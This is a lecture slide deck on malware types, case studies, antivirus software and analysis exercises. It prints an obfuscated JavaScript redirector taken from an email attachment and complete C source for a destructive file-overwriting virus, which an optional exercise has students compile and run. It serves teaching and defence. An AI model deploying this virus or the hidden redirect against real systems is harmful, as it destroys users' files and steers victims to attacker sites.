





<!-- $theme: gaia -->

<!-- $size: 16:9 -->

<!-- page_number: true -->

<!-- footer: Copyright (c) by Bjoern Kimminich | Licensed under CC-BY-SA 4.0 -->

# Malware

---

# Exercise 3.1 (:pushpin:)

1. Analyze the following code (that was taken from a suspicious `.html` email attachment) and explain what it does when executed.

```javascript
<!-- C/C v0964 --><script>function c(){};t=false;kM="kM";
c.prototype = {v : function() {this.e=38741;this.eE="";s='';wS="wS";u="";
h=false;y="y";var w=String("htsjRD".substr(0,2)+"k8V3tp3kV8".substr(4,2)+
":/VxWG".substr(0,2)+"/e"+"nj"+"oydAgE".substr(0,2)+"yo6C3".substr(0,2)+
"urMoc".substr(0,2)+"Q8eDha8eDQ".substr(4,2)+"ir"+"cum1nF".substr(0,2)+
"UmI9t.UIm9".substr(4,2)+"co"+"m/"+"5.U2mW".substr(0,2)+"TaShtSaT".substr(3,2)
+"cwzmlcwz".substr(3,2));z=false;i=22164;d="";this.b="b";var r=false;zC=false;
m='';document["locazLsR".substr(0,4)+"tion"]=w;var eG=false;this.k='';q=5975;
g=55201;this.p="";var iK=61242;var n=false;}};var nF=false;this.eF=false;
var x=new c(); l="l";gO="";x.v();this.kN=false;</script>
```

---

# Categories

* Virus
* Worm
* Trojan Horse
* Spyware
* Rootkit
* Ransomware
* Cryptojacker
* Botnet

---

# Virus

> A computer virus is a program that **spreads by first infecting files** or the system areas of a computer or network router's hard drive and then **making copies of itself**. Some viruses are harmless, others may damage data files, and some may destroy files. Viruses used to be spread when people shared floppy disks and other portable media, now viruses are **primarily spread through email** messages. \[[^1]\]

---

# Virus

> \[...\] Viruses often **require some sort of user action** (e.g., opening an email attachment or visiting a malicious web page) to spread.
>
> \[...\] A virus is simply a computer program--it **can do anything that any other program you run on your computer can** do. Some viruses are designed to deliberately damage files, and others may just spread to other computers. \[[^1]\]

---

<!-- *footer: -->

# Exercise 3.2 (:pushpin:)

1. Analyze the following code and explain what it does when executed on a computer.

```c
#include<stdio.h> #include<io.h> #include<dos.h>
#include<dir.h> #include<conio.h> #include<time.h>
FILE *virus,*host; int done,a=0;
unsigned long x; char buff[2048]; struct ffblk ffblk; clock_t st,end;
void main() { st=clock(); clrscr(); done=findfirst("*.*",&ffblk,0);
while(!done) { virus=fopen(_argv[0],"rb"); host=fopen(ffblk.ff_name,"rb+");
if(host==NULL) goto next; x=89088; printf("Infecting %s\n",ffblk.ff_name,a);
while(x>2048) { fread(buff,2048,1,virus); fwrite(buff,2048,1,host); x-=2048; }
fread(buff,x,1,virus); fwrite(buff,x,1,host); a++;
next: { fcloseall(); done=findnext(&ffblk); } }
printf("DONE! (Total Files Infected= %d)",a); end=clock();
printf("TIME TAKEN=%f SEC\n", (end-st)/CLK_TCK); getch(); }
```

---

# Exercise 3.3 (:house:_optional_)

1. Compile the virus <small>(https://www.gohacking.com/compile-c-programs/)</small>
2. Test the virus <small>(<https://www.gohacking.com/create-computer-virus/>)</small> in a newly created folder with nothing but test files in it

_:skull_and_crossbones: NOTE: The files infected by this virus are destroyed completely and cannot be recovered. So, always test the virus in a new folder by placing some sample files._

<hr>

_:warning: **WARNING: FOR EDUCATIONAL PURPOSES ONLY. DO NOT SPREAD OR MISUSE THIS VIRUS CODE.**_

---

# Worm

> A worm is a type of virus that can **spread without human interaction**. Worms often spread from computer to computer and take up valuable memory and network bandwidth, which can cause a computer to stop responding. Worms can also allow attackers to gain access to your computer remotely. \[[^1]\]

---

# Trojan Horse

> A Trojan horse is a **computer program that is hiding a virus** or other potentially damaging program. A Trojan horse can be a program that **purports to do one action when, in fact, it is performing a malicious action** on your computer. Trojan horses can be included in software that you download for free or as attachments in email messages. \[[^1]\]

[^1]: https://www.us-cert.gov/publications/virus-basics

---

# Case Study: [CCleaner](https://success.trendmicro.com/solution/1118367-piriform-ccleaner-compromised-by-multi-stage-backdoor) (2018)

> It has been reported that a version of Piriform `CCleaner.exe` has been compromised/trojanized resulting in the installation of multi-stage backdoor capable of receiving instructions from threat actors on affected systems. Listed below are the affected versions of CCleaner:
>
> * CCleaner version 5.33.6162
> * CCleaner Cloud version 1.07.3191

---

# Trojanized CCleaner Distribution

> The distribution of the compromised CCleaner came from the actual website of Piriform. Threat actors were able to compromise the CCleaner binary hosted in the website which resulted to the distribution of the malicious software to unsuspecting users. Since it came from a legitimate source and digitally signed, it would be almost impossible for users to identify that the software has been modified to perform malicious activity.

---

# Exercise 3.4

1. Visit <small>https://success.trendmicro.com/solution/1118367-piriform-ccleaner-compromised-by-multi-stage-backdoor</small> and copy any of the hashes of a compromised binary, e.g. `7e9cfa3cca5000fe56e4cf5c660f7939487e531a`
2. Visit https://www.virustotal.com
3. Paste the hash into the _Search_ box
4. Search for (or upload) a file you recently downloaded from the Internet or received as an email attachment
5. Let VirusTotal analyze another URL you recently visited

---

# [Anti-Virus Software (AV)](https://en.wikipedia.org/wiki/Antivirus_software)

> Antivirus software, or anti-virus software (abbreviated to AV software), also known as anti-malware, is a computer program used to prevent, detect, and remove malware.

## Identificaton Methods

* Signature-based detection
* Heuristics
* Rootkit detection
* Real-time protection

---

## Concerns

* Subscription costs <small>(e.g. vendor lock-in)</small>
* Performance impact <small>(e.g. disk I/O)</small>
* False Positives <small>(e.g. from too generic virus family patterns)</small>
* Interoperability issues <small>(e.g. with disk encryption or OS/Firmware updates)</small>
* New viruses <small>(e.g. polymorphic code or [GPU-assisted malware](http://dcs.ics.forth.gr/Activities/papers/gpumalware.malware10.pdf))</small>
* Damage to files <small>(e.g. during malware removal)</small>
* Potential avenue of attack <small>(e.g. due to its kernel-level OS access)</small>

---

# Case Study: [Trojan:JS/Redirector](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Trojan%3AJS%2FRedirector)

The `01-03-malware.md` file - which is the foundation of this slide deck - was authored on a Windows 7 machine with McAffee Anti-Virus installed and running. Via `git push` the file was pushed to GitHub.

On a Windows 10 Home machine with only Windows Defender enabled but no 3rd party AV solution installed, the file was locally updated after a `git pull`. The following screenshots were taken immediately afterwards.

---



---



---



---

# Exercise 3.5 (:pushpin:)

1. What caused this alert?
2. Find definitions for the 4 categories of alerts in the table below.
3. Mark the conclusions McAffee & Microsoft each came to.
4. With which conclusion would you agree more and why?

| Tool              | <small>True Positive</small> | <small>False Negative</small> | <small>True Negative</small> | <small>False Positive</small> |
|:------------------|:-----------------------------|:------------------------------|:-----------------------------|:------------------------------|
| McAffee AV        |                              |                               |                              |                               |
| Win&nbsp;Defender |                              |                               |                              |                               |

---

# Exercise 3.6

1. Test how your Browser and/or AV software react to a Virus using the _entirely harmless_ [Anti-Malware Testfile](http://www.eicar.org/86-0-Intended-use.html) provided by the European Institute for Computer Anti-Virus Research (EICAR)
2. Create a text file and paste the content below into it `X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*`
3. Save the file with a `.com` file extension and try to execute it
4. Try to download a prepared and compressed verision of the EICAR test virus from <small>https://support.kaspersky.com/downloads/eicar/eicar.zip</small>

---

# Non-expert vs. expert safety practices

[](https://security.googleblog.com/2015/07/new-research-comparing-how-security.html)

<!-- *footer: New research: Comparing how security experts and non-experts stay safe online, 2015 Ion/Reeder/Consolvo, Google Security Blog -->

---

# Spyware

> Spyware is one type of malicious software (malware) that **collects information from a computing system without your consent**. Spyware can capture keystrokes, screenshots, authentication credentials, personal email addresses, web form data, internet usage habits, and other personal information. The **data is often delivered to online attackers** who sell it to others or use it themselves for marketing or spam or to execute financial crimes or identity theft. \[[^2]\]

_:information_source: Data collection after the user has agreed to privacy policy or EULA does not meet the definition of spyware!_

[^2]: https://www.us-cert.gov/sites/default/files/publications/spywarehome_0905.pdf

---

# Rootkit

> A rootkit is a piece of software that can be **installed and hidden on your computer without your knowledge**. It may be included in a larger software package or installed by an attacker who has been able to take advantage of a vulnerability on your computer or has convinced you to download it.
> 
> Rootkits are **not necessarily malicious**, but they may hide malicious activities. Attackers may be **able to access information, monitor your actions, modify programs**, or perform other functions on your computer without being detected. \[[^3]\]

---

# Ransomware

> Ransomware is a type of malicious software cyber actors use to deny access to systems or data. The malicious cyber actor **holds systems or data hostage until the ransom is paid**. After the initial infection, the ransomware attempts to spread to shared storage drives and other accessible systems. If the demands are not met, the system or encrypted data remains unavailable, or data may be deleted. \[[^4]\]

---

## Risks to consider before paying the ransom

> * Paying a ransom does not guarantee an organization will regain access to their data; in fact, some individuals or organizations were never provided with decryption keys after having paid a ransom.
> * Some victims who paid the demand have reported being targeted again by cyber actors.
> * After paying the originally demanded ransom, some victims have been asked to pay more to get the promised decryption key.
> * Paying could inadvertently encourage this criminal business model. \[[^4]\]

[^4]: https://www.us-cert.gov/sites/default/files/publications/Ransomware_Executive_One-Pager_and_Technical_Document-FINAL.pdf

---

# Cryptojacker

> \[...\] Some cyber criminals turn away from encrypting files in the hopes of scoring a one-off payment in favour of infecting victim's machines with cryptojacking malware and playing a longer game.
>
> \[...\] Attackers infect a PC, server, smartphone or even IoT-connected device with malware, and **secretly use the processing power to mine for the cryptocurrency**.
> 
> Outside of extreme scenarios when too much power is used and damage is done to the machine, users don't really think too much about why their computer is running a bit slower or that the fans are working slightly harder. \[[^5]\]

[^5]: https://www.zdnet.com/article/why-cryptocurrency-mining-malware-is-the-new-ransomware/

---

# Botnets

> Botnet is a term derived from the idea of bot networks. In its most basic form, a bot is simply an automated computer program, or robot. In the context of botnets, **bots refer to computers that are able to be controlled by one, or many, outside sources**. An attacker usually gains control by infecting the computers with a virus or other malicious code that gives the attacker access. Your computer may be part of a botnet even though it appears to be operating normally. Botnets are often used to conduct a range of activities, from **distributing spam and viruses** to conducting **denial-of-service attacks** \[...\]. \[[^3]\]

[^3]: https://www.us-cert.gov/ncas/tips/ST06-001

---

<!-- *footer: How a botnet works, 2010 Tom-b, used under CC-BY-SA 3.0 -->

# How a Botnet works



---

<!-- *footer: How a botnet works, 2010 Tom-b, used under CC-BY-SA 3.0 -->

# How a Botnet works

1. A botnet operator sends out viruses or worms, infecting ordinary users' computers, whose payload is a malicious application — the bot.
2. The bot on the infected PC logs into a particular command and control (C&C) server (often an IRC server, but, in some cases a web server).
3. A spammer purchases access to the botnet from the operator.
4. The spammer sends instructions via the IRC server to the infected PCs, causing them to send out spam messages to mail servers.

---

# [Six Worst Types of Human Malware](https://techtalk.gfi.com/who-is-your-malware/)

1. I am above your puny rules
2. Trust everyone
3. I’ll click anything once
4. Fool me once, shame on you. Fool me twice, shame on me.
5. I feel the need, the need for speed
6. Patches? We don’t need no stinkin’ patches!

---

## I am above your puny rules

> Yes, we have a policy that prohibits accessing personal email from corporate machines. We even have a proxy in place to block access to all known (by URL) personal webmail services. But try telling the CEO no, just once. Go ahead. Try. If users, any users, can exempt themselves from policy, and don’t take extra cares when they do, they will be a way malware finds in to your systems.

---

## Trust everyone

> You have to love these people for their undeniable faith in humanity and trust for all. You have to try not to kill these people for believing everything, from the banker in Elbonia trying to move money out of the country, to the Prince who has been wrongly deposed. Then there is the helpdesk person who needs their password to restore their data that was lost to a server crash and the relative stuck in a foreign land who cannot call, but can email, asking for funds to help get them home. You almost need to assign them a babysitter so they don’t get phished or fooled again and again and again.

---

## I’ll click anything once

> These are the same people who you probably convinced to lick a flagpole on a freezing day, or to try hamster treats because they taste so good. If they see it online, it must be true, so they will click _anything_ to get that free download, or that prerelease copy of the movie, or to see those pictures that can’t be believed. How many times have you had to reimage their machine because something they clicked was just so, so bad?

---

## Fool me once, shame on you. Fool me twice, shame on me.

> Fool me daily, and it’s just something to laugh about. Chief Engineer Montgomery Scott taught me that Scottish saying, all but the third part. These are the folks who do the same thing, time and again, no matter how many times it has bitten them. Maybe they got tired of waiting for the machine to shut down, so they hit the power switch. Or maybe they keep trying to download cool screensavers, no matter how many times it has turned out to be a virus that trashes their machine. Or maybe they keep giving out their creds to every social engineering attack because the attacker said “please.” No matter what, they just can’t seem to learn.

---

## I feel the need, the need for speed

> “And your crappy antivirus program is making my machine run too slow, so I disabled it. But don’t ask me how a virus got in, because I certainly didn’t download it! Maybe your firewall is not good enough!” In my not so humble opinion, disabling antivirus should be a capital offense!

---

## Patches? We don’t need no stinkin’ patches!

> The worst offender is the one who consciously chooses not to apply a patch. Maybe they are too busy, or don’t have time to test, or just don’t think they need to patch. Patching is one of the best ways to close vulnerabilities that worms and other malware exploit. Leaving a system unpatched is tempting fate, even more so than leaving your sunroof open on a cloudy day.

---

# Exercise 3.7 (:house:)

1. Choose a partner for this exercise
2. Log in to GitHub and fork <small><https://github.com/bkimminich/it-security-lecture></small>
3. Pick any malware from computer history
   * <small>It must not have a profile in [`/malware-profiles`](../malware-profiles) already!</small>
   * <small>Align across your own class that no duplicates are created!</small>
4. Create a profile of that malware based on [`YYYY_NameOfMalware.md`](../malware-profiles/YYYY_NameOfMalware.md)
5. Submit a Pull Request to the lecture repository

<small>_:information_source: You can find an example profile in [1999_Melissa.md](../malware-profiles/1999_Melissa.md)!_</small>

